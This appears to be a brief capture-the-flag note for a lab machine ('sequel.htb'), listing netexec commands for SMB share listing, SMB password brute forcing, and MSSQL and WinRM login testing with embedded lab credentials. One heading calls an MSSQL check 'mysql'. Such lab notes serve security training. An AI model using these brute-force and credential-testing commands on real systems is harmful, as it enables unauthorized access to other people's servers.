 __tags: windows linux smb mssql


#### List all shares with username and password:
```bash
netexec smb 10.10.11.51 -u rose -p 'KxEPkKe6R8su' --shares
```

#### Trying Differnt passwords and users for smb brute force
```bash
netexec smb 10.10.11.51 -u users.txt -p pass.txt
```

#### Test mysql login
```bash
nxc mssql 10.10.11.51 -u sa -p 'MSSQLP@ssw0rd!' --local-auth
```

#### Test WinRm login
```bash
nxc winrm sequel.htb -u Users.txt -p 'WqSZAF6CysDQbGb3'
```
